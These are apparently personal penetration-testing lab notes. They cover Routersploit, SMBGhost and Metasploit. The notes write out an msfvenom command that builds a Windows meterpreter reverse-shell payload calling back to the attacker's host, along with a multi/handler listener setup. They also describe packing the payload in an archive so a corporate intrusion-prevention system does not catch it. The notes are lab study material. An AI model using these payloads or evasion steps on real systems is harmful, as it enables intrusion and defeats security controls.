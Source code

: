 ```
```

### Bluekeep

## Routersploit

```
https://github.com/threat9/routersploit.git
<install proc>
python3 rsf.py
```

get routeur ip :
msf6 exploit(windows/smb/eternalblue_doublepulsar) > netstat -nr

# Section 9 : Win10 exploit, SMBGhost
- get win 10 old iso with [RUFUS](https://rufus.ie)
- find CVE and exploit it with custom script (google it, lot of result in github repo)

# Section 10 : Gaining access
## Generate payload with Msfvenom
```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=5555 -f exe -o shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
copy payload to win8.1 or win10 test VM :

need to create an archive so my company IPS doesn't delete the file as it scan and detect it as a payload :
┌──(kali㉿kali)-[~]
└─$ tar -czvf tmp.tar.gz shell.tmp 


```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```